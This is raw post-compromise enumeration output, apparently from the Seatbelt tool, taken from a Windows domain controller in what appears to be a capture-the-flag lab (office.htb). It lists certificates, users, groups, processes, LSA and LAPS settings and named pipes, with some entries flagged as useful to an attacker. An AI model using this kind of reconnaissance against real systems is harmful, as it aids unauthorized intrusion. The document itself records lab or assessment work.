    224.0.0.22            00-00-00-00-00-00     Static


  Ethernet0 --- Index 5
    Interface Description : vmxnet3 Ethernet Adapter
    Interface IPs      : 10.129.241.7
    DNS Servers        : 127.0.0.1

    Internet Address      Physical Address      Type
    10.129.0.1            00-50-56-B9-F8-EC     Dynamic
    10.129.2.252          00-50-56-96-44-1C     Dynamic
    10.129.5.174          00-50-56-96-76-0F     Dynamic
    10.129.38.145         00-50-56-96-6B-55     Dynamic
    10.129.113.171        00-50-56-96-7F-29     Dynamic
    10.129.118.50         00-50-56-96-A9-03     Dynamic
    10.129.155.112        00-50-56-96-73-6A     Dynamic
    10.129.172.46         00-50-56-96-03-76     Dynamic
    10.129.175.249        00-50-56-96-6F-4E     Dynamic
    10.129.182.8          00-50-56-96-05-68     Dynamic
    10.129.182.172        00-50-56-96-5F-32     Dynamic
    10.129.187.253        00-50-56-96-E2-EA     Dynamic
    10.129.215.122        00-50-56-96-E5-0B     Dynamic
    10.129.216.251        00-50-56-96-CB-A1     Dynamic
    10.129.217.4          00-50-56-96-B3-09     Dynamic
    10.129.217.6          00-50-56-96-84-EA     Dynamic
    10.129.217.103        00-50-56-96-59-AC     Dynamic
    10.129.217.126        00-50-56-96-40-FC     Dynamic
    10.129.217.127        00-50-56-96-69-DB     Dynamic
    10.129.217.134        00-50-56-96-F2-1E     Dynamic
    10.129.217.141        00-50-56-96-AF-A1     Dynamic
    10.129.217.146        00-50-56-96-A0-24     Dynamic
    10.129.217.147        00-50-56-96-7A-CE     Dynamic
    10.129.217.155        00-50-56-96-7D-54     Dynamic
    10.129.217.159        00-50-56-96-3E-A9     Dynamic
    10.129.217.163        00-50-56-96-21-CA     Dynamic
    10.129.220.9          00-50-56-96-59-9F     Dynamic
    10.129.221.110        00-50-56-96-58-8E     Dynamic
    10.129.223.114        00-50-56-96-ED-21     Dynamic
    10.129.224.219        00-50-56-96-21-EE     Dynamic
    10.129.229.189        00-50-56-96-70-4F     Dynamic
    10.129.230.181        00-50-56-96-F1-73     Dynamic
    10.129.230.211        00-50-56-96-BD-42     Dynamic
    10.129.255.255        FF-FF-FF-FF-FF-FF     Static
    169.254.102.249       00-00-00-00-00-00     Invalid
    169.254.183.142       00-00-00-00-00-00     Invalid
    169.254.255.255       00-00-00-00-00-00     Invalid
    224.0.0.22            01-00-5E-00-00-16     Static
    224.0.0.251           01-00-5E-00-00-FB     Static
    224.0.0.252           01-00-5E-00-00-FC     Static
    255.255.255.255       FF-FF-FF-FF-FF-FF     Static


====== AuditPolicies ======

====== AuditPolicyRegistry ======

====== AutoRuns ======


  HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run :
    C:\Windows\system32\SecurityHealthSystray.exe
    C:\Windows\system32\VBoxTray.exe
    C:\Windows\AzureArcSetup\Systray\AzureArcSysTray.exe
    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr

  HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run :
    C:\Program Files\Teams Installer\Teams.exe --checkInstall --source=PROPLUS
====== Certificates ======

  StoreLocation      : LocalMachine
  Issuer             : CN=office-DC-CA, DC=office, DC=htb
  Subject            : CN=DC.office.htb
  ValidDate          : 5/10/2023 5:36:58 AM
  ExpiryDate         : 5/9/2024 5:36:58 AM
  HasPrivateKey      : True
  KeyExportable      : True
  Thumbprint         : 36C4CEDF91853D4C598C739A8BC7A0624458CFE4
  Template           : DomainController
  EnhancedKeyUsages  :
       Client Authentication     [!] Certificate is used for client authentication!
       Server Authentication

====== CertificateThumbprints ======

CurrentUser\Root - DDFB16CD4931C973A2037D3FC83A4D7D775D05E4 (DigiCert Trusted Root G4) 1/15/2038 4:00:00 AM
CurrentUser\Root - 92B46C76E13054E104F230517E6E504D43AB10B5 (Symantec Enterprise Mobile Root for Microsoft) 3/14/2032 4:59:59 PM
CurrentUser\Root - 8F43288AD272F3103B6FB1428485EA3014C0BCFE (Microsoft Root Certificate Authority 2011) 3/22/2036 3:13:04 PM
CurrentUser\Root - 5FB7EE0633E259DBAD0C4C9AE6D38F1A61C7DC25 (DigiCert High Assurance EV Root CA) 11/9/2031 4:00:00 PM
CurrentUser\Root - 4EB6D578499B1CCF5F581EAD56BE3D9B6744A5E5 (VeriSign Class 3 Public Primary Certification Authority - G5) 7/16/2036 4:59:59 PM
CurrentUser\Root - 3B1EFD3A66EA28B16697394703A72CA340A05BD5 (Microsoft Root Certificate Authority 2010) 6/23/2035 3:04:01 PM
CurrentUser\Root - 31F9FC8BA3805986B721EA7295C65B3A44534274 (Microsoft ECC TS Root Certificate Authority 2018) 2/27/2043 1:00:12 PM
CurrentUser\Root - 06F1AA330B927B753A40E68CDF22E34BCBEF3352 (Microsoft ECC Product Root Certificate Authority 2018) 2/27/2043 12:50:46 PM
CurrentUser\Root - 0563B8630D62D75ABBC8AB1E4BDFB5A899B24D43 (DigiCert Assured ID Root CA) 11/9/2031 4:00:00 PM
CurrentUser\Root - 0119E81BE9A14CD8E22F40AC118C687ECBA3F4D8 (Microsoft Time Stamp Root Certificate Authority 2014) 10/22/2039 3:15:19 PM
CurrentUser\Root - DF3C24F9BFD666761B268073FE06D1CC8D4F82A4 (DigiCert Global Root G2) 1/15/2038 4:00:00 AM
CurrentUser\Root - D69B561148F01C77C54578C10926DF5B856976AD (GlobalSign) 3/18/2029 3:00:00 AM
CurrentUser\Root - D4DE20D05E66FC53FE1A50882C78DB2852CAE474 (Baltimore CyberTrust Root) 5/12/2025 4:59:00 PM
CurrentUser\Root - D1EB23A46D17D68FD92564C2F1F1601764D8E349 (AAA Certificate Services) 12/31/2028 3:59:59 PM
CurrentUser\Root - B1BC968BD4F49D622AA89A81F2150152A41D829C (GlobalSign Root CA) 1/28/2028 4:00:00 AM
CurrentUser\Root - A8985D3A65E5E5C4B2D7D66D40C6DD2FB19C5436 (DigiCert Global Root CA) 11/9/2031 4:00:00 PM
CurrentUser\Root - 7E04DE896A3E666D00E687D33FFAD93BE83D349E (DigiCert Global Root G3) 1/15/2038 4:00:00 AM
CurrentUser\Root - 742C3192E607E424EB4549542BE1BBC53E6174E2 (Class 3 Public Primary Certification Authority) 8/1/2028 4:59:59 PM
CurrentUser\Root - 3E2BF7F2031B96F38CE6C4D8A85D3E2D58476A0F (StartCom Certification Authority) 9/17/2036 12:46:36 PM
CurrentUser\Root - 07E032E020B72C3F192F0628A2593A19A70F069E (Certum Trusted Network CA) 12/31/2029 4:07:37 AM
CurrentUser\Root - 4AC8C28C91F22942A024951A7B3C8486557F1338 (office-DC-CA) 5/4/2923 1:34:22 PM
LocalMachine\Root - DDFB16CD4931C973A2037D3FC83A4D7D775D05E4 (DigiCert Trusted Root G4) 1/15/2038 4:00:00 AM
LocalMachine\Root - 92B46C76E13054E104F230517E6E504D43AB10B5 (Symantec Enterprise Mobile Root for Microsoft) 3/14/2032 4:59:59 PM
LocalMachine\Root - 8F43288AD272F3103B6FB1428485EA3014C0BCFE (Microsoft Root Certificate Authority 2011) 3/22/2036 3:13:04 PM
LocalMachine\Root - 5FB7EE0633E259DBAD0C4C9AE6D38F1A61C7DC25 (DigiCert High Assurance EV Root CA) 11/9/2031 4:00:00 PM
LocalMachine\Root - 4EB6D578499B1CCF5F581EAD56BE3D9B6744A5E5 (VeriSign Class 3 Public Primary Certification Authority - G5) 7/16/2036 4:59:59 PM
LocalMachine\Root - 3B1EFD3A66EA28B16697394703A72CA340A05BD5 (Microsoft Root Certificate Authority 2010) 6/23/2035 3:04:01 PM
LocalMachine\Root - 31F9FC8BA3805986B721EA7295C65B3A44534274 (Microsoft ECC TS Root Certificate Authority 2018) 2/27/2043 1:00:12 PM
LocalMachine\Root - 06F1AA330B927B753A40E68CDF22E34BCBEF3352 (Microsoft ECC Product Root Certificate Authority 2018) 2/27/2043 12:50:46 PM
LocalMachine\Root - 0563B8630D62D75ABBC8AB1E4BDFB5A899B24D43 (DigiCert Assured ID Root CA) 11/9/2031 4:00:00 PM
LocalMachine\Root - 0119E81BE9A14CD8E22F40AC118C687ECBA3F4D8 (Microsoft Time Stamp Root Certificate Authority 2014) 10/22/2039 3:15:19 PM
LocalMachine\Root - DF3C24F9BFD666761B268073FE06D1CC8D4F82A4 (DigiCert Global Root G2) 1/15/2038 4:00:00 AM
LocalMachine\Root - D69B561148F01C77C54578C10926DF5B856976AD (GlobalSign) 3/18/2029 3:00:00 AM
LocalMachine\Root - D4DE20D05E66FC53FE1A50882C78DB2852CAE474 (Baltimore CyberTrust Root) 5/12/2025 4:59:00 PM
LocalMachine\Root - D1EB23A46D17D68FD92564C2F1F1601764D8E349 (AAA Certificate Services) 12/31/2028 3:59:59 PM
LocalMachine\Root - B1BC968BD4F49D622AA89A81F2150152A41D829C (GlobalSign Root CA) 1/28/2028 4:00:00 AM
LocalMachine\Root - A8985D3A65E5E5C4B2D7D66D40C6DD2FB19C5436 (DigiCert Global Root CA) 11/9/2031 4:00:00 PM
LocalMachine\Root - 7E04DE896A3E666D00E687D33FFAD93BE83D349E (DigiCert Global Root G3) 1/15/2038 4:00:00 AM
LocalMachine\Root - 742C3192E607E424EB4549542BE1BBC53E6174E2 (Class 3 Public Primary Certification Authority) 8/1/2028 4:59:59 PM
LocalMachine\Root - 3E2BF7F2031B96F38CE6C4D8A85D3E2D58476A0F (StartCom Certification Authority) 9/17/2036 12:46:36 PM
LocalMachine\Root - 07E032E020B72C3F192F0628A2593A19A70F069E (Certum Trusted Network CA) 12/31/2029 4:07:37 AM
LocalMachine\Root - 4AC8C28C91F22942A024951A7B3C8486557F1338 (office-DC-CA) 5/4/2923 1:34:22 PM
CurrentUser\CertificateAuthority - FEE449EE0E3965A5246F000E87FDE2A065FD89D4 (Root Agency) 12/31/2039 3:59:59 PM
CurrentUser\CertificateAuthority - 4AC8C28C91F22942A024951A7B3C8486557F1338 (office-DC-CA) 5/4/2923 1:34:22 PM
CurrentUser\CertificateAuthority - 4AC8C28C91F22942A024951A7B3C8486557F1338 (office-DC-CA) 5/4/2923 1:34:22 PM
LocalMachine\CertificateAuthority - FEE449EE0E3965A5246F000E87FDE2A065FD89D4 (Root Agency) 12/31/2039 3:59:59 PM
LocalMachine\CertificateAuthority - 4AC8C28C91F22942A024951A7B3C8486557F1338 (office-DC-CA) 5/4/2923 1:34:22 PM
LocalMachine\CertificateAuthority - 4AC8C28C91F22942A024951A7B3C8486557F1338 (office-DC-CA) 5/4/2923 1:34:22 PM
CurrentUser\AuthRoot - DF3C24F9BFD666761B268073FE06D1CC8D4F82A4 (DigiCert Global Root G2) 1/15/2038 4:00:00 AM
CurrentUser\AuthRoot - D69B561148F01C77C54578C10926DF5B856976AD (GlobalSign) 3/18/2029 3:00:00 AM
CurrentUser\AuthRoot - D4DE20D05E66FC53FE1A50882C78DB2852CAE474 (Baltimore CyberTrust Root) 5/12/2025 4:59:00 PM
CurrentUser\AuthRoot - D1EB23A46D17D68FD92564C2F1F1601764D8E349 (AAA Certificate Services) 12/31/2028 3:59:59 PM
CurrentUser\AuthRoot - B1BC968BD4F49D622AA89A81F2150152A41D829C (GlobalSign Root CA) 1/28/2028 4:00:00 AM
CurrentUser\AuthRoot - A8985D3A65E5E5C4B2D7D66D40C6DD2FB19C5436 (DigiCert Global Root CA) 11/9/2031 4:00:00 PM
CurrentUser\AuthRoot - 7E04DE896A3E666D00E687D33FFAD93BE83D349E (DigiCert Global Root G3) 1/15/2038 4:00:00 AM
CurrentUser\AuthRoot - 742C3192E607E424EB4549542BE1BBC53E6174E2 (Class 3 Public Primary Certification Authority) 8/1/2028 4:59:59 PM
CurrentUser\AuthRoot - 3E2BF7F2031B96F38CE6C4D8A85D3E2D58476A0F (StartCom Certification Authority) 9/17/2036 12:46:36 PM
CurrentUser\AuthRoot - 07E032E020B72C3F192F0628A2593A19A70F069E (Certum Trusted Network CA) 12/31/2029 4:07:37 AM
LocalMachine\AuthRoot - DF3C24F9BFD666761B268073FE06D1CC8D4F82A4 (DigiCert Global Root G2) 1/15/2038 4:00:00 AM
LocalMachine\AuthRoot - D69B561148F01C77C54578C10926DF5B856976AD (GlobalSign) 3/18/2029 3:00:00 AM
LocalMachine\AuthRoot - D4DE20D05E66FC53FE1A50882C78DB2852CAE474 (Baltimore CyberTrust Root) 5/12/2025 4:59:00 PM
LocalMachine\AuthRoot - D1EB23A46D17D68FD92564C2F1F1601764D8E349 (AAA Certificate Services) 12/31/2028 3:59:59 PM
LocalMachine\AuthRoot - B1BC968BD4F49D622AA89A81F2150152A41D829C (GlobalSign Root CA) 1/28/2028 4:00:00 AM
LocalMachine\AuthRoot - A8985D3A65E5E5C4B2D7D66D40C6DD2FB19C5436 (DigiCert Global Root CA) 11/9/2031 4:00:00 PM
LocalMachine\AuthRoot - 7E04DE896A3E666D00E687D33FFAD93BE83D349E (DigiCert Global Root G3) 1/15/2038 4:00:00 AM
LocalMachine\AuthRoot - 742C3192E607E424EB4549542BE1BBC53E6174E2 (Class 3 Public Primary Certification Authority) 8/1/2028 4:59:59 PM
LocalMachine\AuthRoot - 3E2BF7F2031B96F38CE6C4D8A85D3E2D58476A0F (StartCom Certification Authority) 9/17/2036 12:46:36 PM
LocalMachine\AuthRoot - 07E032E020B72C3F192F0628A2593A19A70F069E (Certum Trusted Network CA) 12/31/2029 4:07:37 AM
CurrentUser\TrustedPublisher - E1D782A8E191BEEF6BCA1691B5AAB494A6249BF3 (DigiCert Timestamp 2021) 1/5/2031 4:00:00 PM
CurrentUser\TrustedPublisher - 60EE3FC53D4BDFD1697AE5BEAE1CAB1C0F3AD4E3 (DigiCert EV Code Signing CA (SHA2)) 4/18/2027 5:00:00 AM
CurrentUser\TrustedPublisher - 3C0D087ECDCC76D1084ABE00F1FEE5040400AE37 (Insecure.Com LLC) 6/10/2024 4:59:59 PM
CurrentUser\TrustedPublisher - 3BA63A6E4841355772DEBEF9CDCF4D5AF353A297 (DigiCert SHA2 Assured ID Timestamping CA) 1/7/2031 4:00:00 AM
LocalMachine\TrustedPublisher - E1D782A8E191BEEF6BCA1691B5AAB494A6249BF3 (DigiCert Timestamp 2021) 1/5/2031 4:00:00 PM
LocalMachine\TrustedPublisher - 60EE3FC53D4BDFD1697AE5BEAE1CAB1C0F3AD4E3 (DigiCert EV Code Signing CA (SHA2)) 4/18/2027 5:00:00 AM
LocalMachine\TrustedPublisher - 3C0D087ECDCC76D1084ABE00F1FEE5040400AE37 (Insecure.Com LLC) 6/10/2024 4:59:59 PM
LocalMachine\TrustedPublisher - 3BA63A6E4841355772DEBEF9CDCF4D5AF353A297 (DigiCert SHA2 Assured ID Timestamping CA) 1/7/2031 4:00:00 AM
====== CredGuard ======

====== DNSCache ======

====== DotNet ======

  Installed CLR Versions
      4.0.30319

  Installed .NET Versions
      4.8.04161

  Anti-Malware Scan Interface (AMSI)
      OS supports AMSI           : True
     .NET version support AMSI   : True
        [!] The highest .NET version is enrolled in AMSI!
====== EnvironmentPath ======

  Name                           : C:\Windows\system32
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;0x1301bf;;;SY)(A;OICIIO;GA;;;BA)(A;;0x1301bf;;;BA)(A;OICIIO;GXGR;;;BU)(A;;0x1200a9;;;BU)(A;CIIO;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;OICIIO;GXGR;;;AC)(A;;0x1200a9;;;S-1-15-2-2)(A;OICIIO;GXGR;;;S-1-15-2-2)

  Name                           : C:\Windows
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;0x1301bf;;;SY)(A;OICIIO;GA;;;BA)(A;;0x1301bf;;;BA)(A;OICIIO;GXGR;;;BU)(A;;0x1200a9;;;BU)(A;CIIO;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;OICIIO;GXGR;;;AC)(A;;0x1200a9;;;S-1-15-2-2)(A;OICIIO;GXGR;;;S-1-15-2-2)

  Name                           : C:\Windows\System32\Wbem
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;0x1301bf;;;SY)(A;OICIIO;GA;;;BA)(A;;0x1301bf;;;BA)(A;OICIIO;GXGR;;;BU)(A;;0x1200a9;;;BU)(A;CIIO;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;OICIIO;GXGR;;;AC)(A;;0x1200a9;;;S-1-15-2-2)(A;OICIIO;GXGR;;;S-1-15-2-2)

  Name                           : C:\Windows\System32\WindowsPowerShell\v1.0\
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;0x1301bf;;;SY)(A;OICIIO;GA;;;BA)(A;;0x1301bf;;;BA)(A;OICIIO;GXGR;;;BU)(A;;0x1200a9;;;BU)(A;CIIO;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;OICIIO;GXGR;;;AC)(A;;0x1200a9;;;S-1-15-2-2)(A;OICIIO;GXGR;;;S-1-15-2-2)

  Name                           : C:\Windows\System32\OpenSSH\
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;0x1301bf;;;SY)(A;OICIIO;GA;;;BA)(A;;0x1301bf;;;BA)(A;OICIIO;GXGR;;;BU)(A;;0x1200a9;;;BU)(A;CIIO;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;OICIIO;GXGR;;;AC)(A;;0x1200a9;;;S-1-15-2-2)(A;OICIIO;GXGR;;;S-1-15-2-2)

  Name                           : C:\Users\tstark\AppData\Local\Microsoft\WindowsApps
  SDDL                           : O:S-1-5-21-1199398058-4196589450-691661856-1114D:(A;OICIID;FA;;;SY)(A;OICIID;FA;;;BA)(A;OICIID;FA;;;S-1-5-21-1199398058-4196589450-691661856-1114)

====== EnvironmentVariables ======

  <SYSTEM>                           ComSpec                            %SystemRoot%\system32\cmd.exe
  <SYSTEM>                           DriverData                         C:\Windows\System32\Drivers\DriverData
  <SYSTEM>                           OS                                 Windows_NT
  <SYSTEM>                           Path                               %SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\;%SYSTEMROOT%\System32\OpenSSH\
  <SYSTEM>                           PATHEXT                            .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
  <SYSTEM>                           PROCESSOR_ARCHITECTURE             AMD64
  <SYSTEM>                           PSModulePath                       %ProgramFiles%\WindowsPowerShell\Modules;%SystemRoot%\system32\WindowsPowerShell\v1.0\Modules
  <SYSTEM>                           TEMP                               %SystemRoot%\TEMP
  <SYSTEM>                           TMP                                %SystemRoot%\TEMP
  <SYSTEM>                           USERNAME                           SYSTEM
  <SYSTEM>                           windir                             %SystemRoot%
  <SYSTEM>                           NUMBER_OF_PROCESSORS               2
  <SYSTEM>                           PROCESSOR_LEVEL                    6
  <SYSTEM>                           PROCESSOR_IDENTIFIER               Intel64 Family 6 Model 85 Stepping 7, GenuineIntel
  <SYSTEM>                           PROCESSOR_REVISION                 5507
  NT AUTHORITY\SYSTEM                Path                               %USERPROFILE%\AppData\Local\Microsoft\WindowsApps;
  NT AUTHORITY\SYSTEM                TEMP                               %USERPROFILE%\AppData\Local\Temp
  NT AUTHORITY\SYSTEM                TMP                                %USERPROFILE%\AppData\Local\Temp
  OFFICE\tstark                      Path                               %USERPROFILE%\AppData\Local\Microsoft\WindowsApps;
  OFFICE\tstark                      TEMP                               %USERPROFILE%\AppData\Local\Temp
  OFFICE\tstark                      TMP                                %USERPROFILE%\AppData\Local\Temp
  OFFICE\tstark                      OneDrive                           %UserProfile%\OneDrive
====== Hotfixes ======

Enumerating Windows Hotfixes. For *all* Microsoft updates, use the 'MicrosoftUpdates' command.

====== InterestingProcesses ======

    Category     : interesting
    Name         : cmd.exe
    Product      : Command Prompt
    ProcessID    : 2300
    Owner        : 
    CommandLine  : 

    Category     : interesting
    Name         : cmd.exe
    Product      : Command Prompt
    ProcessID    : 6508
    Owner        : 
    CommandLine  : 

    Category     : interesting
    Name         : powershell.exe
    Product      : PowerShell host process
    ProcessID    : 4640
    Owner        : 
    CommandLine  : 

    Category     : interesting
    Name         : powershell.exe
    Product      : PowerShell host process
    ProcessID    : 6696
    Owner        : 
    CommandLine  : 

    Category     : interesting
    Name         : powershell.exe
    Product      : PowerShell host process
    ProcessID    : 4848
    Owner        : 
    CommandLine  : 

    Category     : interesting
    Name         : powershell.exe
    Product      : PowerShell host process
    ProcessID    : 208
    Owner        : OFFICE\tstark
    CommandLine  : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

    Category     : interesting
    Name         : powershell.exe
    Product      : PowerShell host process
    ProcessID    : 6452
    Owner        : OFFICE\tstark
    CommandLine  : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -Command [Console]::OutputEncoding=[Text.UTF8Encoding]::UTF8

    Category     : interesting
    Name         : powershell.exe
    Product      : PowerShell host process
    ProcessID    : 5116
    Owner        : OFFICE\tstark
    CommandLine  : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -Command [Console]::OutputEncoding=[Text.UTF8Encoding]::UTF8

    Category     : interesting
    Name         : powershell.exe
    Product      : PowerShell host process
    ProcessID    : 6400
    Owner        : 
    CommandLine  : 

====== InternetSettings ======

General Settings
  Hive                               Key : Value

  HKCU             CertificateRevocation : 1
  HKCU          DisableCachingOfSSLPages : 0
  HKCU                IE5_UA_Backup_Flag : 5.0
  HKCU                   PrivacyAdvanced : 1
  HKCU                   SecureProtocols : 10240
  HKCU                        User Agent : Mozilla/4.0 (compatible; MSIE 8.0; Win32)
  HKCU              ZonesSecurityUpgrade : System.Byte[]
  HKCU                      ActiveXCache : C:\Windows\Downloaded Program Files
  HKCU                CodeBaseSearchPath : CODEBASE
  HKCU                    EnablePunycode : 1
  HKCU                      MinorVersion : 0
  HKCU                    WarnOnIntranet : 1

URLs by Zone
  No URLs configured

Zone Auth Settings
====== LAPS ======

  LAPS Enabled                          : False
  LAPS Admin Account Name               : 
  LAPS Password Complexity              : 
  LAPS Password Length                  : 
  LAPS Expiration Protection Enabled    : 
====== LastShutdown ======

  LastShutdown                   : 2/15/2024 4:53:21 PM

====== LocalGPOs ======

====== LocalGroups ======

Non-empty Local Groups (and memberships)


  ** DC\Pre-Windows 2000 Compatible Access ** (A backward compatibility group which allows read access on all users and groups in the domain)

  WellKnownGroup  NT AUTHORITY\Authenticated Users         S-1-5-11
  User            OFFICE\DC$                               S-1-5-21-1199398058-4196589450-691661856-1000

  ** DC\Windows Authorization Access Group ** (Members of this group have access to the computed tokenGroupsGlobalAndUniversal attribute on User objects)

  WellKnownGroup  NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS S-1-5-9

  ** DC\Administrators ** (Administrators have complete and unrestricted access to the computer/domain)

  User            OFFICE\Administrator                     S-1-5-21-1199398058-4196589450-691661856-500
  Group           OFFICE\Enterprise Admins                 S-1-5-21-1199398058-4196589450-691661856-519
  Group           OFFICE\Domain Admins                     S-1-5-21-1199398058-4196589450-691661856-512

  ** DC\Users ** (Users are prevented from making accidental or intentional system-wide changes and can run most applications)

  WellKnownGroup  NT AUTHORITY\INTERACTIVE                 S-1-5-4
  WellKnownGroup  NT AUTHORITY\Authenticated Users         S-1-5-11
  Group           OFFICE\Domain Users                      S-1-5-21-1199398058-4196589450-691661856-513

  ** DC\Guests ** (Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted)

  User            OFFICE\Guest                             S-1-5-21-1199398058-4196589450-691661856-501
  Group           OFFICE\Domain Guests                     S-1-5-21-1199398058-4196589450-691661856-514

  ** DC\IIS_IUSRS ** (Built-in group used by Internet Information Services.)

  WellKnownGroup  NT AUTHORITY\IUSR                        S-1-5-17

  ** DC\Certificate Service DCOM Access ** (Members of this group are allowed to connect to Certification Authorities in the enterprise)

  WellKnownGroup  NT AUTHORITY\Authenticated Users         S-1-5-11

  ** DC\Remote Management Users ** (Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.)

  User            OFFICE\HHogan                            S-1-5-21-1199398058-4196589450-691661856-1108

  ** DC\Cert Publishers ** (Members of this group are permitted to publish certificates to the directory)

  User            OFFICE\DC$                               S-1-5-21-1199398058-4196589450-691661856-1000

  ** DC\Denied RODC Password Replication Group ** (Members in this group cannot have their passwords replicated to any read-only domain controllers in the domain)

  User            OFFICE\krbtgt                            S-1-5-21-1199398058-4196589450-691661856-502
  Group           OFFICE\Domain Controllers                S-1-5-21-1199398058-4196589450-691661856-516
  Group           OFFICE\Schema Admins                     S-1-5-21-1199398058-4196589450-691661856-518
  Group           OFFICE\Enterprise Admins                 S-1-5-21-1199398058-4196589450-691661856-519
  Alias           OFFICE\Cert Publishers                   S-1-5-21-1199398058-4196589450-691661856-517
  Group           OFFICE\Domain Admins                     S-1-5-21-1199398058-4196589450-691661856-512
  Group           OFFICE\Group Policy Creator Owners       S-1-5-21-1199398058-4196589450-691661856-520
  Group           OFFICE\Read-only Domain Controllers      S-1-5-21-1199398058-4196589450-691661856-521

====== LocalUsers ======

  ComputerName                   : localhost
  UserName                       : Administrator
  Enabled                        : True
  Rid                            : 500
  UserType                       : Administrator
  Comment                        : Built-in account for administering the computer/domain
  PwdLastSet                     : 5/10/2023 11:00:50 AM
  LastLogon                      : 2/17/2024 9:35:46 PM
  NumLogins                      : 4965

  ComputerName                   : localhost
  UserName                       : krbtgt
  Enabled                        : False
  Rid                            : 502
  UserType                       : User
  Comment                        : Key Distribution Center Service Account
  PwdLastSet                     : 4/14/2023 2:14:59 PM
  LastLogon                      : 1/1/1970 12:00:00 AM
  NumLogins                      : 0

  ComputerName                   : localhost
  UserName                       : PPotts
  Enabled                        : True
  Rid                            : 1107
  UserType                       : User
  Comment                        : 
  PwdLastSet                     : 5/2/2023 2:44:57 PM
  LastLogon                      : 2/17/2024 7:01:35 PM
  NumLogins                      : 4623

  ComputerName                   : localhost
  UserName                       : HHogan
  Enabled                        : True
  Rid                            : 1108
  UserType                       : User
  Comment                        : 
  PwdLastSet                     : 5/6/2023 10:59:34 AM
  LastLogon                      : 5/10/2023 5:30:58 AM
  NumLogins                      : 55

  ComputerName                   : localhost
  UserName                       : tstark
  Enabled                        : True
  Rid                            : 1114
  UserType                       : User
  Comment                        : 
  PwdLastSet                     : 5/8/2023 5:32:00 PM
  LastLogon                      : 2/17/2024 9:17:55 PM
  NumLogins                      : 91

====== LogonSessions ======

Logon Sessions (via WMI)


  UserName              : tstark
  Domain                : OFFICE
  LogonId               : 37233146
  LogonType             : Interactive
  AuthenticationPackage : NTLM
  StartTime             : 2/17/2024 9:10:22 PM
  UserPrincipalName     : 

  UserName              : tstark
  Domain                : OFFICE
  LogonId               : 37232241
  LogonType             : Interactive
  AuthenticationPackage : NTLM
  StartTime             : 2/17/2024 9:10:22 PM
  UserPrincipalName     : 
====== LSASettings ======

  auditbasedirectories           : 0
  auditbaseobjects               : 0
  Bounds                         : 00-30-00-00-00-20-00-00
  crashonauditfail               : 0
  fullprivilegeauditing          : 00
  LimitBlankPasswordUse          : 1
  NoLmHash                       : 1
  Security Packages              : ""
  Notification Packages          : rassfm,scecli
  Authentication Packages        : msv1_0
  LsaPid                         : 668
  LsaCfgFlagsDefault             : 0
  SecureBoot                     : 1
  ProductType                    : 7
  disabledomaincreds             : 0
  everyoneincludesanonymous      : 0
  forceguest                     : 0
  restrictanonymous              : 0
  restrictanonymoussam           : 1
====== McAfeeConfigs ======

====== NamedPipes ======

668,lsass,44d529152c35fa69
2948,MicrosoftSearchInBing,5EA58BF9-13F1-4F04-A152-CB928468DFFC
1460,svchost,atsvc
396,svchost,Ctx_WinStation_API_service
904,svchost,epmapper
1188,svchost,eventlog
    SDDL         : O:LSG:LSD:P(A;;0x12019b;;;WD)(A;;CC;;;OW)(A;;0x12008f;;;S-1-5-80-880578595-1860270145-482643319-2788375705-1540778122)
520,wininit,InitShutdown
668,lsass,lsass
976,svchost,LSM_API_service
1652,dfssvc,netdfs
620,services,ntsvcs
0,Unk,PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
0,Unk,PSHost.133527039575555299.4640.DefaultAppDomain.powershell
0,Unk,PSHost.133527040903559940.6696.DefaultAppDomain.powershell
0,Unk,PSHost.133527065273546601.4848.DefaultAppDomain.powershell
208,powershell,PSHost.133527066228972271.208.DefaultAppDomain.powershell
6452,powershell,PSHost.133527068873240148.6452.DefaultAppDomain.powershell
5116,powershell,PSHost.133527070163222361.5116.DefaultAppDomain.powershell
0,Unk,PSHost.133527080860673755.6400.DefaultAppDomain.powershell
4588,svchost,ROUTER
